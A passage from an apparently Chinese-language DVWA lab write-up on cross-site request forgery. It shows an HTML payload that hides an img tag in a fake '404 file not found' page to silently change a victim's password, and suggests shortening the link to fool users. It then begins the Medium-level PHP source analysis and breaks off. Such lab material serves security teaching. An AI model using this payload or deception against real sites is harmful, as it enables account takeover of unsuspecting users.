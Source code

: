 ![image-20230805104819342](./DVWA.assets/image-20230805104819342.png)



同样可以修改成功

修改密码的链接过于明显，可以使用一些缩短链接的方法，这样用户更容易上当。

也可以写一个html简单脚本，把img标签隐藏起来

```html
<img src="http://192.168.80.145/dvwa/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#" border="0" style="display:none;">
<h1>
    404
</h1>
<h2>
    file not found!!
</h2>
```

当用户点击访问这个页面时，会以为访问的页面丢失了，但是当他打开这个页面时，用户的密码已经被修改了！

### Medium级别

源码分析

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
```